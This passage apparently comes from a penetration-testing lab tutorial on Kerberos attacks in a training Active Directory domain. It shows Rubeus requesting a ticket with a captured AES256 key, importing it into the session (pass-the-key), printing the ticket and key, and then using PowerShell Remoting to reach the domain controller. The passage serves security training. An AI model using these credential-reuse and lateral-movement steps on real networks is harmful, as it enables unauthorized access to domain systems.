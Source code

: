 The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.

{% code overflow="wrap" fullWidth="true" %}
```powershell
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\john'
[*] Using domain controller: 10.129.203.120:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFqDCCBaSgAwIBBaEDAgEWooIEojCCBJ5hggSaMIIElqADAgEFoRMbEUlOTEFORUZSRUlHSFQuSFRC
      oiYwJKADAgECoR0wGxsGa3JidGd0GxFpbmxhbmVmcmVpZ2h0Lmh0YqOCBFAwggRMoAMCARKhAwIBAqKC
      BCB1KArMCmgAwIBEqEiBCDlV0Bp6+en
      HH9/2tewMMt8rq0f7ipDd/UaU4HUKUFaHaETGxFJTkxBTkVGUkVJR0hULkhUQqIRMA+gAwIBAaEIMAYb
      BGpvaG6jBwMFAEDhAAClERgPMjAyMjA3MTgxMjQ0NTBaphEYDzIwMjIwNzE4MjI0NDUwWqcRGA8yMDIy
      MDcyNTEyNDQ1MFqoExsRSU5MQU5FRlJFSUdIVC5IVEKpJjAkoAMCAQKhHTAbGwZrcmJ0Z3QbEWlubGFu
      ZWZyZWlnaHQuaHRi
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/inlanefreight.htb
  ServiceRealm             :  INLANEFREIGHT.HTB
  UserName                 :  john
  UserRealm                :  INLANEFREIGHT.HTB
  StartTime                :  7/18/2022 5:44:50 AM
  EndTime                  :  7/18/2022 3:44:50 PM
  RenewTill                :  7/25/2022 5:44:50 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  5VdAaevnpxx/f9rXsDDLfK6tH+4qQ3f1GlOB1ClBWh0=
  ASREP (key)              :  9279BCBD40DB957A0ED0D3856B2E67F9BB58E6DC7FC07207D0763CE2713F11DC

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```
{% endcode %}

